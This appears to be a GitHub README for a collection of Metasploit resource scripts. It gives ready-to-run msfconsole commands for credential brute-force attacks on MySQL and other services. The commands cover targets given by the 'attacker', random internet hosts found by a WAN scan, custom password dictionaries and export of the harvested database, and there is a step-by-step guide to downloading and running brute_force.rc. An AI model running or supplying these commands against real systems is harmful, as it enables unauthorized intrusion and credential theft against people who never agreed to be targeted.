## METASPLOIT RESOURCE FILES

<blockquote>Resource scripts provides an easy way for us to automate repetitive tasks in Metasploit. Conceptually they're just like batch scripts, they contain a set of commands that are automatically and sequentially executed when you load the script in Metasploit. You can create a resource script by chaining together a series of Metasploit console commands or by directly embedding Ruby to do things like call APIs, interact with objects in the database, modules and iterate actions.</blockquote>

**This repository contains various resource files to assiste in exploitation or metasploit database related issues.**<br />
![pic](http://i68.tinypic.com/21ovkfm.jpg)

#### [!] Please read the article about resource scripting [here](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit_resource_files.md#metasploit-resource-files)

<br /><br /><br />

### USING 'SETG' GLOBAL VARIABLES TO CONFIG RC SCRIPTS

![pic](http://i67.tinypic.com/2iu59g7.png)
Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Many of the this brute force resource scripts are written to accept **user inputs** (setg global variables).<br />This means that users can run this kind of resource scripts in 3 diferent ways:

Execute resource script

      msfconsole -r /root/mysql_brute.rc

Instruct the resource script to scan rhosts input by attacker

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;resource /root/mysql_brute.rc'

Instruct the resource script to search in WAN for rhosts with service port open

      msfconsole -q -x 'setg RANDOM_HOSTS true;resource /root/mysql_brute.rc'

<br /><br /><br />

**Adicionally to the described settings, we can also combine diferent configurations at runtime execution.**<br />

---

Instruct the resource script to search in WAN for rhosts with service port open and limmit the search to 300 rhosts

      msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/mysql_brute.rc'

Instruct the resource script to use attackers dicionary file (absoluct path required)

      msfconsole -q -x 'setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

Instruct the resource script to scan rhosts input by attacker, and use the attacker dicionary file 

      msfconsole -q -x 'setg RHOSTS 10.10.10.1 10.10.11.2;setg USERPASS_FILE /root/dicionary.txt;resource /root/mysql_brute.rc'

<br /><br /><br />

#### Step-By-Step how to run brute_force.rc script

1º download resource script to **/root** folder<br />

      sudo wget https://raw.githubusercontent.com/r00t-3xp10it/resource_files/master/brute_force.rc

2º start postgresql service (**local**)<br />

      sudo service postgresql start

3º run brute_force.rc resource script to search hosts on WAN (**limmit the search to 300**)<br />

      sudo msfconsole -q -x 'setg RANDOM_HOSTS true;setg LIMMIT 300;resource /root/brute_force.rc'


Brute force rc scripts requires the msf database to be empty of hosts and services data. Thats the main reason why the scripts creates a new workspace named **'redteam'** and stores all the data inside that workspace. At exit the rc script it will delete redteam workspace/data to be abble to accept new data inputs.

Instruct rc scripts to export **redteam** workspace database to a local file **/root/database_gfvte.xml** (optional)

      sudo msfconsole -q -x 'setg SAVE_DB true;resource /root/brute_force.rc'

### Suspicious Shell Activity RedTeam @2019

<br />

